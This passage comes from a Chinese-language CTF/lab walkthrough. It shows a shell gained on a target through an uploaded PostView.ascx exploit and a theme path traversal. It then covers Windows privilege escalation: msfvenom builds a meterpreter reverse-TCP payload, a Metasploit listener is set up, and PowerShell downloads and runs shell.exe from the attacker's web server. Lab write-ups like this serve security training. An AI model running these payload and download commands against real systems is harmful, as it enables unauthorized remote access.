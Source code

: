 上传文件，exp重命名为`PostView.ascx`：

![image-20240307201050489](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403072010534.png)

访问目标路径`http://10.10.62.181/?theme=../../App_Data/files`后拿到权限：

![image-20240307201241144](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403072012188.png)

## Windows Privilege Escalation

基本思路：用现有的shell下载msf的payload，将当前的shell转移到msf中，进行后续的提权操作。

![image-20240307201637556](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403072016607.png)

msfvenom生成payload：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.124.22 LPORT=4444 -e x86/shikata_ga_nai -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

kali开启msf监听：

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.2.124.22
lhost => 10.2.124.22
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.2.124.22:4444
```

payload目录下python开启web服务，在已经拿到的shell上使用powershell下载我们的payload：

```shell
cd C:\Windows\Temp
powershell -c wget "http://10.2.124.22:8081/shell.exe" -outfile "shell.exe"
shell.exe
```
